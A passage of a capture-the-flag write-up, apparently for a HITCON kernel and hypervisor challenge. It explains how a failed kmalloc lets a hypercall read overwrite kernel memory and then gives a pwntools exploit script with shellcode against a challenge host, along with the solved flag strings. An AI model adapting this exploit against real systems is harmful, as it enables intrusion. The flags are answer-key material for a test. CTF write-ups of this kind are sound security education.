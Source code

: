 ```c
    arena.top_size -= nb;
    arena.top->size = nb;
    new_top = arena.top + nb;
    ret = arena.top + 16;
    arena.top = new_top;
  }
  return ret;
}
```
* Just give a size which lager than `arena.top_size`, it will return 0.
    1. `mmap(0, 0x1000000, 7)` -> `arena.top_size` remain the size < 0x1000000.
    2. `sys_read( 0, buf, 0x1000000 )` -> `kmalloc` in `hypercall read` will return 0.
    3. Pass 0 to hypervisor, `hypercall read handler` will do `read( 0, &vm->mem + 0 , 0x1000000 )`.
    4. Now we can overwrite the whole kernel space! 
* For flag2, I overwrite the opcodes in  kernel `sys_open` which do checking filename with `nop`.
* ORW flag2.
* exploit:
```python
#!/usr/bin/env python
from pwn import *

# hitcon{Go_ahead,_traveler,_and_get_ready_for_deeper_fear.}
# hitcon{take_out_all_memory,_take_away_your_soul}

context.arch = 'amd64'
host , port = '35.200.23.198' , 31733
y = remote( host , port )

kernel = open( './kernel.bin' ).read()

s = '31a-\\a:2107732+a;,' + '\x90' * 70
s += asm(
    '''
    mov rdi, 0
    mov rsi, 0x1000000
    mov rdx, 7
    mov r10, 16
    mov r8, -1
    mov r9, 0
    mov rax, 8
    inc rax
    syscall

    mov rbp, rax
    push rsp
    ''' +
    shellcraft.write( 1 , 'rsp' , 8 ) + 
    shellcraft.read( 0 , 'rbp' , 0x1000000 ) +
    shellcraft.pushstr( 'flag2\x00' ) + 
    shellcraft.open( 'rsp' , 0 , 0 ) +
    shellcraft.read( 'rax' , 'rsp' , 0x70 ) +
    shellcraft.write( 1 , 'rsp' , 0x70 )
)

y.sendlineafter( 'down.' , s )
y.recvline()
user_stack = u64( y.recv(8) )
success( 'User stack -> %s' % hex( user_stack ) )

kernel_mod = kernel[:0x14d] + p64( 0x8002000000 ) + p64( user_stack + 0x100 )
kernel_mod += kernel[0x15d:0x9a4] + '\x90' * 0x75

sleep(1)
```